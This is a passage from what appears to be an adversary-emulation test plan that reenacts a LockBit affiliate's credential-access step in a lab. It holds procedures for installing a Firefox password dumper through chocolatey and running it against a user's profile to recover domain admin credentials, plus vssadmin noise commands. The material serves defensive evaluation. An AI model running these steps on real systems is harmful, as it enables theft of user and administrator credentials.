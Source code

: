 ### :mag: Reference Code & Reporting

> :information_source: **NOTE:** Not all techniques listed in this table
directly map to evaluation substeps

| Red Team Activity | Source Code Link | ATT&CK Technique | Relevant CTI Report |
| ----------------- | ---------------- | ---------------- | ------------------- |
| LockBit affiliate modifies the registry to enable automatic logon | - | T1552.002 Unsecured Credentials: Credentials in Registry | [CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a) |

## Step 4 - Credential Access (Evaluation Step 12)

### :microphone: Voice Track

The LockBit affiliate ingresses the FireFox password dumper using `chocolatey`
then dumps passwords from the FireFox browser, recovering the domain admin
credentials to access the Linux KVM server.

### :loud_sound: Noise
The following noise activity is executed:
* User will manipulate volume shadow copy
   * `vssadmin add shadowstorage /for=C: /on=C: /maxsize=UNBOUNDED`
   * `vssadmin create shadow /for=C:`
* User will execute chocolatey to install profwiz and ldapadmin
   * `choco install profwiz -y`
   * `choco install ldapadmin -y`

### :biohazard: Procedures

* Within your TightVNC session to `quirrell (10.111.9.202)`, using the elevated
Command Prompt minimized earlier, execute `chocolatey` to download the FireFox
password dumper:

    ```bat
    choco install FoxAdminPro -y
    ```

* :camera: Screenshot the FoxAdminPro screenshot.

* Within the Command Prompt, execute the FireFox password dumper:

    ```bat
    FoxAdminPro -d C:\Users\gornuk\AppData\Roaming\Mozilla\Firefox\Profiles\ohbrdd1o.default-release\
    ```

* :camera: Screenshot the command output.

* Confirm the output contains the domain admin credentials

### :mag: Reference Code & Reporting

> :information_source: **NOTE:** Not all techniques listed in this table
directly map to evaluation substeps

| Red Team Activity | Source Code Link | ATT&CK Technique | Relevant CTI Report |
| ----------------- | ---------------- | ---------------- | ------------------- |
| LockBit affiliate uses chocolatey to ingress additional tooling | - | T1072 Software Deployment Tools | [CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a) |
| chocolatey downloads FireFox password dumper | - | T1105 Ingress Tool Transfer | [CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a) |
| LockBit affiliate executes FireFox password dumper | - | T1555.003 Credentials from Password Stores: Credentials from Web Browsers | [CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a) |
